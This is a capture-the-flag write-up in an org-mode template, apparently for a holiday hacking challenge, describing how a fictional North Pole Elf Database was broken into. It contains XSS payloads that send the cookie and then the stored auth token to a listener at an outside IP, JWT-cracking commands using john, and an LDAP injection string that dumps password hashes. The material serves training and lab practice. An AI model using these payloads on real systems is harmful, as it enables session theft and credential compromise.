 * Answer Template
  :PROPERTIES:
  :CUSTOM_ID: answer-template
  :END:

** Question
   :PROPERTIES:
   :CUSTOM_ID: question
   :END:

8) Fetch the letter to Santa from the North Pole Elf Database at
   http://edb.northpolechristmastown.com. Who wrote the letter?

** Background Information
   :PROPERTIES:
   :CUSTOM_ID: background-information
   :END:

Do we know anything about this system already?

Hints:

List any useful hints here.

Blog Posts:

Are any of these useful?

- Putting My Zero Cents In: Using the Free Tier on Amazon Web Services
  (EC2)
  https://pen-testing.sans.org/blog/2017/12/10/putting-my-zero-cents-in-using-the-free-tier-on-amazon-web-services-ec2
  Spinning up an EC2 instance, but also a lot of emphasis on how to use
  SSH keys.
- Your Pokemon Guide for Essential SQL Pen Test Commands
  https://pen-testing.sans.org/blog/2017/12/09/your-pokemon-guide-for-essential-sql-pen-test-commands
  SQL basics (SELECT, WHERE, wildcards, ORDER BY, GROUP BY, COUNT)
- Exploiting XXE Vulnerabilities in IIS/.NET
  https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities
  Including remote content in XML
- Why You Need the Skills to Tinker with Publicly Released Exploit Code
  https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code
  Mentions Apache struts vulnerabilities, specifically CVE-2017-5638 and
  CVE-2017-9805 Code: https://github.com/chrisjd20/cve-2017-9805.py
- Go To The Head Of The Class: LD\_PRELOAD For The Win
  https://pen-testing.sans.org/blog/2017/12/06/go-to-the-head-of-the-class-ld-preload-for-the-win
- A Spot of Tee
  https://pen-testing.sans.org/blog/2017/12/06/a-spot-of-tee Restricted
  bash shell, and bypassing the I/O restriction with tee
- Understanding and Exploiting Web-based LDAP
  https://pen-testing.sans.org/blog/2017/11/27/understanding-and-exploiting-web-based-ldap
  LDAP syntax, LDAP injection
- Massively Scaling your Scanning
  https://pen-testing.sans.org/blog/2017/10/25/massively-scaling-your-scanning
  masscan

** Goal
   :PROPERTIES:
   :CUSTOM_ID: goal
   :END:

What are we trying to accomplish?

** Approach
   :PROPERTIES:
   :CUSTOM_ID: approach
   :END:

Describe the thought process that we tried here. How were we able to use
the hints or the blog posts?

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:

Summarize the reference solution that we found

My solution:

This was a multi stage exploit.

The first stage was XSS via the support request.

First I used

```
# nc -v -l -p 4444 on l2s
http -v --form --proxy=http:socks5://@localhost:32080  POST http://edb.northpolechristmastown.com/service \
uid=alabaster.snowball \
email=alabaster.snowball@northpolechristmastown.com \
message="<IMG SRC=/ onerror=\"document.location='http://10.142.0.11:4444/?cookie='+document.cookie\"></img>"
```

Then i realized the cookie didn't help, and one needed the token mentioned in the html/javascript source:

```
# nc -v -l -p 4444 on l2s
http -v --form --proxy=http:socks5://@localhost:32080  POST http://edb.northpolechristmastown.com/service \
uid=alabaster.snowball \
email=alabaster.snowball@northpolechristmastown.com \
message="<IMG SRC=/ onerror=\"document.location='http://10.142.0.11:4444/?cookie='+localStorage.getItem('np-auth');\"></img>"
```

At that point we had the token I stored in [output/jwt](output/jwt) and used jwt2john.py and john to crack it.  The makefile in output shows the process:

```
jwt.john: ../tools/jwt2john.py jwt
	python3 ../tools/jwt2john.py $(shell cat jwt) > jwt.john

john.txt: jwt.john
	john  --format=HMAC-SHA256 jwt.john
	john  --format=HMAC-SHA256 jwt.john -show > john.txt
```

Once logged in, [tools/edb.py](tools/edb.py) was used to exploit the ldap injection vuln using the search string

    name=))(department=it)(|(cn=

and by passing * as the attributes query field. With that query and all
attributes it is able to grab the entire ldap database including password
hashes.

The letter page requires a valid password, convienently a google search for santas md5 password quickly finds a valid password.

** Alternatives
   :PROPERTIES:
   :CUSTOM_ID: alternatives
   :END:

Any other, easier solutions?

** Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: common-pitfalls
   :END:

Do we know what issue(s) people were running into?

Cracking the JWT key was tricky without the propper tools.
My first python based solution was broken.  A fixed version was too slow.
running it using pypy helped a bit, but the pyjwt library is not optimized for cracking.
https://github.com/lmammino/jwt-cracker was a bit faster, but john outperformed
everything.  The hard part was finding out how to use john to crack a jwt secret key.

** About the Challenge
   :PROPERTIES:
   :CUSTOM_ID: about-the-challenge
   :END:

How was the challenge setup? Was there a better way to secure this
system?
